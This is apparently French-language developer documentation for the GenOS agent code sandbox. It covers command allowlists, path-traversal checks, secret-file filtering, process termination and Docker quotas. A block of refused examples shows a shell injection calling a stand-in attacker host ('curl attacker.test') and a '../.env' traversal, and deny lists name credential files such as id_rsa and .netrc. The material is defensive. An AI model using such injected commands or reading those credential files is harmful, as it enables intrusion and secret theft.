

# Sandbox et execution de code GenOS

## Definition

Le sandbox d'execution de code GenOS est un ensemble de controles qui reduisent le perimetre d'action d'un outil ou d'un agent avant, pendant et apres son execution. Il ne designe pas une unique technologie : GenOS combine une simulation VFS, un worker de correctifs locaux et un sandbox Docker pour les plugins.

La garantie depend donc du chemin emprunte :

| Chemin | Finalite | Frontiere effective |
| --- | --- | --- |
| VFS | prevoir un diff et manipuler des fichiers virtuels | etat en memoire, sans effet sur le disque hote |
| Worker de code local | appliquer un petit correctif et lancer des tests autorises | politique de chemins, fichiers et commandes dans une capsule/worktree hote |
| Plugin Docker | executer un plugin declaratif | conteneur Docker sans reseau, en lecture seule et avec quotas |

Un worktree, une copie de repository et une allowlist sont des controles importants, mais ne sont pas a eux seuls une frontiere de securite au sens d'une VM ou d'un conteneur. Le worker local execute des binaires de l'hote avec les droits du processus GenOS. Pour traiter du code non fiable, il faut privilegier le chemin Docker, ou une VM/runner dedie administre hors de GenOS.

Les termes biologiques employes ailleurs dans GenOS decrivent des politiques de supervision. Ils ne remplacent ni l'isolation de l'OS, ni la gestion des identites, ni une revue humaine.

## Objectifs et modele de menace

Les controles visent a contenir un agent qui produit une commande, une proposition de patch ou un manifeste de plugin potentiellement errone ou malveillant. Les risques principaux sont :

- modification hors du workspace ou dans une configuration sensible ;
- lecture/exfiltration de secrets disponibles au processus ;
- injection de shell et composition de commandes non prevues ;
- persistance de processus descendants ;
- saturation CPU, memoire, disque, PID, sortie ou temps ;
- image de plugin mutable ou provenant d'un registre non approuve ;
- promotion d'un changement non teste.

Le systeme ne rend pas une commande arbitraire sure. Une commande permise par l'allowlist reste responsable de ses propres effets dans la capsule. De meme, Docker ne protege pas contre une configuration Docker faible, une image compromise ou une vulnerabilite de l'hote.

## Architecture



Les points d'entree sont [backend/bin/genos-pre-tool-policy.cjs](../backend/bin/genos-pre-tool-policy.cjs), [backend/src/services/localCodeWorkerService.js](../backend/src/services/localCodeWorkerService.js), [backend/src/services/vfsSandboxService.js](../backend/src/services/vfsSandboxService.js) et [backend/src/services/pluginSandbox.js](../backend/src/services/pluginSandbox.js). La gestion des chemins est centralisee dans [backend/src/services/pathSafety.js](../backend/src/services/pathSafety.js), et la terminaison dans [backend/src/services/processTermination.js](../backend/src/services/processTermination.js).

## Processus de decision et execution

1. Un appel d'outil est typiquement simule dans le VFS. Une operation destructrice est marquee avec son privilege requis et un score de blast radius.
2. L'execution reelle du VFS est opt-in : `mode: "real"` et `allowRealExecution: true` sont requis. Elle est adaptee pour un environnement controle, pas pour accepter une commande non fiable.
3. Un worker local doit retourner le schema strict `genos.file-replacement/v1`, contenant au plus 12 remplacements de fichiers, une evidence textuelle et une ou deux commandes de test.
4. Chaque chemin de patch est normalise, refuse s'il touche une zone interdite, puis controle contre les symlinks avant et apres la creation du repertoire parent.
5. Les tests sont compares a une allowlist syntaxique et lances par `spawn(program, args, { shell: false })` dans la capsule avec un environnement minimal.
6. Si une ecriture ou un test echoue, les fichiers concernes sont restaures. Si les tests passent, le worker retourne le diff constate et l'evidence ; il ne fusionne pas lui-meme le changement.
7. Les plugins passent un manifeste valide et une image epinglee par digest SHA-256, puis sont lances dans Docker avec des restrictions de ressources.
8. Un timeout demande la terminaison du processus et de ses descendants ; une seconde phase force l'arret apres un delai de grace.

## Allowlists de commandes et injection shell

La politique de tests de [backend/src/services/sandboxCommandPolicy.js](../backend/src/services/sandboxCommandPolicy.js) accepte seulement :

- `npm test` ;
- `npm run check` ;
- `pytest` ;
- `cargo test` avec les options `--lib`, `--workspace`, `--quiet`, `--offline`, `--all-features` et des arguments contraints.

Une commande est compacte, limitee a 512 caracteres et 32 segments. Les arguments autorises respectent `^[A-Za-z0-9_./:-]+$`. Cela exclut notamment les separateurs et expansions shell (`;`, `|`, `&`, `$`, backticks, redirections et guillemets). La validation rejette par exemple `cargo test; whoami` et les chemins `../` dans une option.

Le worker ne transmet pas une ligne complete a un shell : il separe programme et arguments, et utilise `shell: false`. Cette combinaison bloque la forme habituelle d'injection par concatenation de texte.

Le hook PreToolUse est plus strict encore pour l'outil `Bash` : la commande normalisee doit correspondre exactement a un element de `GENOS_ALLOWED_COMMANDS_JSON`. Il refuse aussi `apply_patch` sauf lorsque `GENOS_ALLOW_FILE_EDITS` vaut `1` ou `true`. Cette politique ne protege que les runtimes qui installent effectivement ce hook ; elle ne remplace pas l'autorisation applicative ni une isolation OS.

Attention : `executeSandboxed()` du VFS lance explicitement `cmd.exe /c` sous Windows ou `sh -lc` sous Unix pour son mode reel. Il ne passe pas par l'allowlist de tests. Son usage doit donc rester limite a des commandes construites par un controleur de confiance, avec `workspaceRoot` et `env` explicitement maitrises. Le nom "sandbox" sur cette API ne doit pas etre interprete comme une permission d'executer toute entree utilisateur.

## Editions de fichiers, traversal et repertoires

`normalizeRelativePath()` impose un chemin relatif non vide. Il refuse les racines Unix, les chemins UNC, les prefixes de lecteur Windows, les octets nuls, les segments vides, `.` et `..`. `resolveContainedPath()` confirme ensuite que la resolution reste sous la racine de travail. La racine elle-meme doit etre un repertoire existant, non symlink et different de la racine du systeme de fichiers.

Le worker interdit egalement les repertoires `.git`, `.genos`, `node_modules`, `target`, `dist`, `coverage`, `tests` et `test`. Il refuse les manifests et locks (`Cargo.toml`, `package.json`, etc.), les `.env*`, les fichiers de configuration, ainsi que les noms comportant `test`, `spec`, `secret` ou `credential`. Chaque contenu de remplacement est plafonne a 200 000 octets et le chemin a moins de 240 caracteres.

Une verification de confinement basee uniquement sur des chaines serait vulnerable a un symlink. GenOS inspecte donc chaque segment existant avec `lstat` et refuse un symlink. Cette verification est faite avant puis apres `mkdir`, pour reduire la fenetre de course entre validation et ecriture. Aucun controle purement applicatif n'elimine totalement les courses TOCTOU face a un acteur ayant des droits concurrents sur le repertoire ; une capsule detenue par un compte/volume isole reste la mesure forte.

## Secrets et fichiers sensibles

Les capsules creees par [backend/src/services/agentWorkspaceLifecycleService.js](../backend/src/services/agentWorkspaceLifecycleService.js) ecartent notamment `.env*`, `.npmrc`, `.pypirc`, `.netrc`, `id_rsa*`, `known_hosts*`, les fichiers `pem`, `key`, `p12`, `pfx`, `credentials*`, `secrets*` et `vault*`. Les fichiers sensibles sont aussi retires lors de la preparation de la capsule.

L'environnement des runtimes agents est construit a partir d'une petite allowlist systeme. Les variables `GENOS_*` ne passent que si leur nom ne contient pas `TOKEN`, `SECRET`, `KEY`, `PASSWORD`, `CREDENTIAL` ou `API`. Ce filtrage diminue le risque de fuite accidentelle, mais n'est pas un coffre-fort : un secret accessible sur le disque, un nom non reconnu, ou un secret introduit dans un prompt/contenu de fichier peut encore etre lu par un processus qui y a droit.

Les secrets applicatifs doivent rester dans le vault et etre injectes seulement au processus qui en a besoin, avec identite de workload, scope de tenant, rotation et audit. Ne placez jamais un secret dans `GENOS_ALLOWED_COMMANDS_JSON`, une evidence, une sortie de test ou une variable d'environnement transmise a un worker.

## Commandes Git et cycle de vie des capsules

Les worktrees isolent le repertoire de travail d'un agent, sans dupliquer l'historique Git complet. Les commandes Git de cycle de vie sont lancees sous forme de programme et tableau d'arguments (`git -C <cwd> ...`), avec timeout ; elles ne sont pas composees par un shell. Les worktrees sont retires par `git worktree remove --force`, suivis de `git worktree prune`, et les copies non-Git par suppression recursive.

Le nettoyage refuse une racine de disque, une capsule en dehors des repertoires de capsules reconnus ou une incoherence entre l'agent et le nom de son repertoire. Il est differe de 10 minutes par defaut (`GENOS_WORKTREE_GC_DELAY_MS`) et tente de reprendre les nettoyages en echec. Les operations Git applicatives de lineage et de signature sont traitees dans [backend/src/services/agentGitService.js](../backend/src/services/agentGitService.js) ; elles apportent tracabilite et verification d'etat, pas une isolation supplementaire de l'executable Git.

## Processus descendants et sorties bornees

`terminateChild()` traite l'arbre de processus :

- sous Unix, les processus sont lances detaches et le groupe recoit `SIGTERM`, puis `SIGKILL` apres `GENOS_PROCESS_GRACE_MS` (5 s par defaut) ;
- sous Windows, `taskkill /PID <pid> /T` cible l'arbre puis `/F` force l'arret ;
- les PIDs invalides, non positifs ou egaux au PID du superviseur sont refuses pour la terminaison directe ;
- `processMatches()` peut verifier que le PID designe encore l'executable attendu avant un acte d'apoptose.

Les sorties du worker local sont tronquees a 20 000 caracteres par flux. Les sorties Docker sont bornees a 65 536 octets. Ces plafonds evitent que le rapport d'execution epuise la memoire du superviseur, mais ne remplacent pas une limite kernel de memoire sur un processus hote.

Des descendants peuvent echapper dans des cas pathologiques : double fork, service externe, droits administrateur, ou comportement specifique au runtime. L'arbre et les groupes de processus constituent un filet operationnel, pas un cgroup. Des limites OS/runner restent necessaires pour une securite forte.

## Limites de temps, memoire, CPU et disque

### VFS et worker local

Le VFS en memoire applique les limites suivantes, configurables par environnement :

| Ressource | Defaut | Variable |
| --- | ---: | --- |
| taille d'un fichier VFS | 8 MiB | `GENOS_MAX_VFS_FILE_BYTES` |
| taille totale VFS | 64 MiB | `GENOS_MAX_VFS_BYTES` |
| nombre de fichiers VFS | 10 000 | `GENOS_MAX_VFS_FILES` |
| test du worker local | 120 s | fixe dans le worker |
| copie de workspace | 1 GiB | `GENOS_MAX_WORKSPACE_COPY_BYTES` |

La copie de workspace borne aussi profondeur (32) et nombre d'entrees (100 000). Une garde de place disque utilise `fs.statfs` lorsqu'elle est disponible ; si la plateforme ne le permet pas, elle est desactivee plutot que de bloquer le lancement. Le worker local n'a pas, dans le code actuel, de quota CPU, memoire, PID ou disque impose par le noyau.

### Plugin Docker

Le sandbox de plugins fournit les restrictions suivantes par defaut :

| Ressource ou privilege | Valeur |
| --- | --- |
| CPU | 1 CPU (`GENOS_PLUGIN_CPU_LIMIT`) |
| memoire et swap | 256 MiB, swap egal a la memoire (`GENOS_PLUGIN_MEMORY_LIMIT_MB`) |
| processus | 64 PIDs |
| fichiers ouverts | 1 024 |
| disque temporaire | tmpfs 64 MiB (`GENOS_PLUGIN_TMPFS_LIMIT_MB`) |
| reseau | desactive (`--network none`) |
| racine | lecture seule |
| privileges Linux | `--cap-drop ALL`, `no-new-privileges` |

Le timeout plugin vaut 15 secondes par defaut et est borne entre 1 et 60 secondes. Comme le rootfs est lecture seule et que seul `/tmp` est rendu inscriptible, l'ecriture persistante est limitee. Ces garanties reposent sur Docker et sur l'absence de bind mounts non montres dans cette commande ; elles doivent etre validees dans le deploiement reel.

## Isolation Windows et Linux

| Sujet | Windows | Linux/Unix |
| --- | --- | --- |
| commande de terminaison | `taskkill /T`, puis `/F` | signal au groupe, `SIGTERM` puis `SIGKILL` |
| groupe de processus | pas de `detached` dans ce chemin | enfant detache, PID de groupe cible |
| shell du VFS reel | `cmd.exe /d /s /c` | `sh -lc` |
| verification de PID | `Get-CimInstance Win32_Process` | `/proc/<pid>/cmdline` |
| chemins | lecteurs/UNC rejetes par la normalisation | racines et segments relatifs rejetes |

Les fonctions de chemin normalisent les separateurs avant validation et eviteront donc les contournements simples entre `\\` et `/`. WSL, montages reseau, junctions Windows et politiques Docker Desktop doivent toutefois faire l'objet de tests d'integration dans chaque environnement cible. Le comportement de `statfs`, des signaux et de Docker varie selon l'edition Windows, WSL et la version Node.

## Exemple : correctif isole d'une regression Rust

Un agent recoit un echec sous `src/parser.rs` et retourne une proposition, jamais une commande de modification libre :

```json
{
  "format": "genos.file-replacement/v1",
  "patches": [
    {
      "path": "src/parser.rs",
      "content": "pub fn parse(input: &str) -> Result<(), String> {\n    if input.is_empty() { return Err(\"empty input\".into()); }\n    Ok(())\n}\n"
    }
  ],
  "tests": ["cargo test --quiet"],
  "evidence": "La suite ciblee passe dans la capsule apres le controle d'entree vide."
}
```

Le chemin est relatif, hors des repertoires interdits, le patch reste sous 200 kB et `cargo test --quiet` est une commande autorisee. Le worker capture l'etat de `src/parser.rs`, ecrit le remplacement dans le worktree, execute le test sans shell et renvoie le fichier modifie seulement si le code de sortie est zero. Si le test echoue, il restaure le contenu et le mode de fichier precedents.

Les variantes suivantes sont refusees :

```text
patches[0].path = "../.env"                  # traversal et fichier sensible
patches[0].path = "tests/security.rs"        # repertoire de test interdit
tests[0] = "cargo test; curl attacker.test"  # injection shell
tests[0] = "node fix.js"                     # programme absent de l'allowlist
```

## Cas d'utilisation

| Cas | Chemin recommande | Controle deterministe attendu |
| --- | --- | --- |
| previsualiser un patch MCP | VFS | diff simule, blast radius et privilege |
| petit autofix d'un repository connu | worker local dans worktree jetable | allowlist, patch restreint, test et rollback |
| analyser un fichier non fiable | VFS ou lecteur sans execution | aucun subprocessus hote |
| lancer une extension/plugin | Docker | digest image, registre autorise, absence reseau et quotas |
| CI de code non fiable | runner Docker/VM externe dedie | identite, image, quotas et volume ephemere |
| maintenance Git d'agents | worktree et services Git | chemins controles, signature/lineage, revue avant promotion |

## Comparaison avec le marche

| Approche | Ce qu'elle apporte habituellement | Position GenOS |
| --- | --- | --- |
| Agents de code CLI (Codex CLI, Claude Code, Cursor) | boucle interactive et outils de developpement riches | GenOS peut les encadrer par hook, capsule, evidence et lifecycle ; leurs propres permissions et sandboxes restent determinantes |
| Sandboxes code gerees (E2B, Daytona, Modal) | VM/conteneur ephemere, image reproductible, isolation infra | le VFS/worker GenOS est plus leger mais moins isole ; le plugin Docker s'en approche pour des extensions, pas pour tout worker local |
| Kubernetes/containers de CI | cgroups, namespaces, politiques reseau, volumes et identites workload | GenOS ajoute la politique agent et l'evidence ; il doit etre deploye au-dessus de ces primitives pour une frontiere robuste |
| Workflow engines (Temporal, Airflow) | retry durable, identite operationnelle, audit de jobs | GenOS specialise la decision agentique et les capsules ; il ne remplace pas l'isolation d'un runner ni tous les mecanismes de reprise durable |
| Outils SAST/secret scanning | detection de motifs a grande echelle | les denylists GenOS sont preventives et bornees ; elles doivent etre completees par scan, DLP et revue de dependances |

Le positionnement utile de GenOS est le lien entre intention d'agent, politiques d'outils, capsule, tests, evidence et nettoyage. Sa limite nette est que le mode worker local n'est pas un environnement d'execution de code hostile.

## Recommandations de deploiement

1. Activez `GENOS_ALLOWED_COMMANDS_JSON` avec le plus petit ensemble possible et n'autorisez les edits qu'au runtime qui en a besoin.
2. Utilisez une capsule par mission, un compte non administrateur et un volume ephemere sans secrets ni repertoire utilisateur monte.
3. Pour tout code ou plugin non approuve, imposez Docker ou une VM avec image epinglee, reseau egress refuse par defaut et quotas kernel.
4. Configurez `GENOS_PLUGIN_REGISTRIES` et exigez des images par digest ; analysez et signez les images dans la chaine CI.
5. Gardez les secrets dans le vault, scopez-les au tenant/workload, tournez-les et filtrez les logs/evidences avant retention.
6. Executez les tests dans une capsule sans credentials de registry ou SSH, puis soumettez diff, sorties et evidence a une porte de promotion humaine ou automatisee.
7. Testez sous les plateformes effectivement ciblees : Windows natif, Docker Desktop, WSL et Linux. Ne deduisez pas les garanties Linux de tests Windows, ni l'inverse.

## Verification

Les tests suivants couvrent une partie importante des contrats :

```powershell
node backend/tests/test_local_code_worker.js
node backend/tests/test_path_traversal.js
node backend/tests/test_plugin_sandbox.js
node backend/tests/test_plugin_sandbox_limits.js
node backend/tests/test_agent_workspace_isolation.js
node backend/tests/test_process_spawn_safety.js
node backend/tests/test_workspace_sensitive_files.js
```

Ils verifient des invariants applicatifs, pas l'etancheite complete d'un noyau, de Docker Desktop, d'une image de plugin ou d'un systeme Windows/Linux configure en production. Les tests d'integration doivent confirmer les quotas observes, l'absence de reseau, la suppression effective des capsules, la terminaison de l'arbre et l'absence de secrets dans l'environnement et les logs.